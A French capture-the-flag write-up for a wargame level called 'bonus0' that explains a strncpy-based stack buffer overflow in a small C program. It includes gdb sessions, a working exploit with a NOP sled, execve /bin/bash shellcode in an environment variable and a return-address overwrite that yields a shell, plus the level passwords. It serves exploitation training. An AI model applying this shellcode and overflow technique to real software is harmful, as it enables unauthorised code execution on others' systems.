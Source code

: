 # Bonus0

pass : `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`

## Sources :

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

void	p(char *str, char *sep) {
	char buf[4096];  // 0x1008 - 0x8
	puts(sep);
	read(stdin, buf, 4096);
	char *ptr = strchr(buf, '\n');
	*ptr = '\0';
	strncpy(str, buf, 20);  // 0x14
}

void	pp(char *buf) {
	char a[20];  // ebp-0x30
	p(a, " - ");

	char b[20];  // ebp-0x1c
	p(b, " - ");

	strcpy(buf, a);

	int i = 0;
	while (buf[i] != '\0') {
		i++;
	}
	buf[i] = ' ';

	strcat(buf, b);
}

int		main(int ac, char **av) {
	char buf[42];  // 0x40-0x16

	pp(buf);
	puts(buf);

	return (0);
}
```

## Recherche :

Le points d'entrés sont par les 2 calls à `read(stdin, buf, 4096)`.
`strcpy` copie la source dans la destination et rajoute `\0`
`strncpy` fait de même, mais si la taille est atteinte, il ne rajoute pas de `\0` à la fin de sa chaine.

Donc si le premier `read` fait exactement plus de 20 caractères, les 20 premiers caractères vont être copiés dans `a` sans rajouté de `\0` et comme la mémoire est contingente, `a` et `b` se suivent. `strcat` va donc dans `buf` `ab b`

`a` se trouve à l'adresse `0xbffff1e8`
`b` se trouve à l'adresse `0xbffff1fc`

On écrit donc `20 + 20 + 1 + 20` caractères dans `buf` qui dépasse les `42` aloués, et on écrit donc dans la stack.
Et quand on quitte le main, et qu'on déstack, on se retrouve à écrire dans `EIP` et le programme segfault.

```shell
./bonus0
 -
abcdefghijabcdefghij
 -
01234567890123456789
abcdefghijabcdefghij01234567890123456789 01234567890123456789
[1]    3889 segmentation fault  ./bonus0
```

Avec gdb, c'est plus clair, et on voit que `EIP` est réécrit au 9<sup>ème</sup> caractère du second `read`.

On voit qu'on peut aussi lancer en une commande :
```gdb
(gdb) r < <(python -c 'print "A"*4095 + "\n" + "B"*9 + "0123" + "C" * 200')
Starting program: /home/user/bonus0/bonus0 < <(python -c 'print "A"*4095 + "\n" + "B"*9 + "0123" + "C" * 200')
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBB0123CCCCCCC��� BBBBBBBBB0123CCCCCCC���

Program received signal SIGSEGV, Segmentation fault.
0x33323130 in ?? ()
```
On retrouve bien notre `0x33323130`, à savoir "0123"


On va mettre notre shell code dans une variable d'environnement en laissant un peu de place avant :
`export EXPLOIT=$(python -c 'print "\x90" * 4096 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')`

Avec gdb, on va chercher l'adresse de la variable d'environnement avec `p/s *environ`. Si on ne la trouve pas direct, on peut afficher les suivants `p/3s *environ`

On va décaller cette adresse de 512 pour être sûr de tomber dessus. `p/x 0xbfffe8e0 + 512`
On décalle cette adresse car selon les argument, l'adresse de `EXPLOIT` peut changer. Ici on est sûr.



## Exploit :

```sh
sh $ export EXPLOIT=$(python -c 'print "\x90" * 4096 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
sh $ gdb ./bonus0
(gdb) b main
(gdb) r
(gdb) p/s *environ
0xbfffe8e0:      "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
(gdb) p/x 0xbfffe8e0 + 512
$1 = 0xbfffeae0
(gdb) q
sh $ python -c 'print "A" * 4095 + "\n" + "\x90"*9 + "\xe0\xea\xff\xbf" + "AAAA" * 50' > /tmp/a; cat /tmp/a - | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAA�������������AAAAAAA��� �������������AAAAAAA���

whoami
bonus1
cd ../bonus1
cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Documentation :
* https://stackoverflow.com/questions/14760587/how-does-a-nop-sled-work#:~:text=The
